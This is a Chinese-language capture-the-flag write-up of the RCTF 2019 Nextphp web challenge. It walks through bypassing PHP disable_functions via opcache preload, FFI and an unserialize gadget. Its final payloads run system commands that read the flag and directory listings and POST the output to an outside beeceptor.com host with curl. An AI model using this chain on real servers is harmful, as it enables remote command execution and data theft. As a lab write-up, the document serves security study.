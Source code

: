 # \[RCTF 2019]Nextphp

## \[RCTF 2019]Nextphp

## 考点

* PHP FFI
* PHP opcache
* bypass disable\_functions

## wp

给了个shell的源码

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

`?a=phpinfo();`看到phpinfo中设置了disable\_functions

![](<../../.gitbook/assets/image (8) (1).png>)

`?a=var_dump(scandir('/'));`提示没有权限，`?a=var_dump(scandir('.'));`看到两个文件，index.php和preload.php。再读取preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

实际上还是要仔细观察phpinfo，可以看到设置了opcache.preload，启用了FFI，禁用了反射类

```
opcache.preload：/var/www/html/preload.php
open_basedir：/var/www/html
disable_classes：ReflectionClass
disable_functions:
```

![](<../../.gitbook/assets/image (16).png>)

![](<../../.gitbook/assets/image (5) (1) (1).png>)

[opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) 是 **PHP7.4** 中新加入的功能。如果设置了 [opcache.preload](https://www.php.net/manual/en/opcache.configuration.php#ini.opcache.preload) ，那么在所有Web应用程序运行之前，服务会先将设定的 **preload** 文件加载进内存中，使这些 **preload** 文件中的内容对之后的请求均可用。更多细节可以阅读：[https://wiki.php.net/rfc/preload](https://wiki.php.net/rfc/preload) ，在这篇文档尾巴可以看到如下描述：

> In conjunction with ext/FFI (dangerous extension), we may allow FFI functionality only in preloaded PHP files, but not in regular ones

大概意思就是说允许在 **preload** 文件中使用 **FFI** 拓展，但是文档中说了 **FFI** 是一个危险的拓展，而这道题目却开启了 **FFI** 拓展。我们可以参考文档：[https://wiki.php.net/rfc/ffi](https://wiki.php.net/rfc/ffi) 中的例子：

```php
<?php
// create FFI object, loading libc and exporting function printf()
$ffi = FFI::cdef(
    "int printf(const char *format, ...);", // this is regular C declaration
    "libc.so.6");
// call C printf()
$ffi->printf("Hello %s!\n", "world");
```

如果不设置 **FFI::cdef** 的第二个参数，也可以调用 **C** 函数。那么命令执行函数格式如下

```php
<?php
$ffi = FFI::cdef("int system(const char * command);");
$ffi->system("whoami");
```

preload.php中定义了A类，实现了Serializable接口，`__unserialize()`函数会在反序列化时被调用。这一特性是在PHP7.4中新加入的，具体可参考：[https://wiki.php.net/rfc/custom\_object\_serialization](https://wiki.php.net/rfc/custom\_object\_serialization)

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(char *command);'
    ];
    public function serialize (): string {
        return serialize($this->data);
    }
    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
    public function __get ($key) {
        return $this->data[$key];
    }
    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

}
echo base64_encode(serialize(new A()));
// QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319I7fX0
```

传入`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319")));`

![](<../../.gitbook/assets/image (34).png>)

触发`A::run()`从而把FFI对象返回给`A->data['ret']`，再用`A::__get()`函数就可以获取FFI对象了

`?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret'));`

![](<../../.gitbook/assets/image (2) (1).png>)

最后payload

```
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `ls /` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
?a=var_dump(unserialize(base64_decode("QzoxOiJBIjo4OTp7YTozOntzOjM6InJldCI7TjtzOjQ6ImZ1bmMiO3M6OToiRkZJOjpjZGVmIjtzOjM6ImFyZyI7czoyNjoiaW50IHN5c3RlbShjaGFyICpjb21tYW5kKTsiO319"))->__get('ret')->system("echo `cat /flag` > 1.txt;curl -v -X POST 'https://peri0d.free.beeceptor.com/my/api/' -d @1.txt"));
```

![](<../../.gitbook/assets/image (35).png>)

## 小结

1. [RCTF2019Web题解之nextphp](https://mochazz.github.io/2019/05/21/RCTF2019Web%E9%A2%98%E8%A7%A3%E4%B9%8Bnextphp/#nextphp)
